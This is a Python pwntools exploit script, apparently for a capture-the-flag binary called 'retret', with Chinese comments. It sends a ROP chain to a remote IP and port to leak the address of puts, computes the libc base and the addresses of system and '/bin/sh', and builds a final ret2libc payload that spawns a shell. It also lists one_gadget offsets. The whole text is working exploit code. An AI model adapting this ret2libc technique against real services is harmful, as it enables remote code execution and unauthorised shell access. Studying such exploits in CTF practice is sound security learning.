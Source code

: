 ```python
from pwn import *  
  
# 设置上下文  
context(log_level='debug', arch='amd64', os='linux')  
  
# 目标二进制文件和 libc 文件路径  
binary_path = "/root/Pwn/retret/./pwn"  
libc_path = "/root/Pwn/retret/libc.so.6"  
  
# 加载 ELF 文件  
elf = ELF(binary_path)  
libc = ELF(libc_path)  
  
# 获取目标地址  
puts_plt = 0x401070
puts_got = 0x404018
vuln_addr = 0x4012dd  # 假设这是漏洞地址，具体需要根据实际情况确定  
  
# 查找 ROP gadgets  
pop_rdi = 0x40119e  # 需要根据二进制文件实际内容确定  
ret_addr = 0x40101a  # 查找返回地址的 gadget  
  
# 构造 payload 以泄露 puts 地址  
payload_leak = b'a' * 8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) +p64(ret_addr)+p64(0x4010b0)
  
# 启动目标程序  
# target = process("/root/Pwn/retret/./pwn")  # 如果是本地文件，可以使用 process(binary_path)  
# print(proc.pidof(target))
target=remote("27.25.151.80",35703)
# 发送 payload 并接收泄露的 puts 地址  
target.recvuntil(b"who are you?")  
target.sendline(payload_leak)  
target.recvuntil(b"card number ")  
  
buf_start1=int(target.recvline()[:-1],16)

print(f"buff_start1: {hex(buf_start1)}")



target.sendafter("Have a good time!\n",b'a'*8+p64(buf_start1))


# 解析泄露的 puts 地址  
# 计算 libc 基地址和 system、/bin/sh 的地址  

puts_addr=u64(target.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) 
log.info(f"puts_addr: {hex(puts_addr)}")  
libc_base = puts_addr - libc.sym['puts']  
system_addr = libc.sym['system'] + libc_base  
str_bin_sh = next(libc.search(b'/bin/sh\x00')) + libc_base  

print("%"*8)
print(f'system_addr: {hex(system_addr)}')
print(f'str_bin_sh_addr: {hex(str_bin_sh)}')
print("%"*8)
  
  
main_addr=0x4012b1
# 构造最终的 payload 以执行 system("/bin/sh")  
# pause()
execve=[0xebc81,0xebc85,0xebc88,0xebce2,0xebd38,0xebd3f,0xebd43]
payload_exec = b'a' * 8 +p64(ret_addr)+ p64(pop_rdi) + p64(str_bin_sh) + p64(system_addr)
```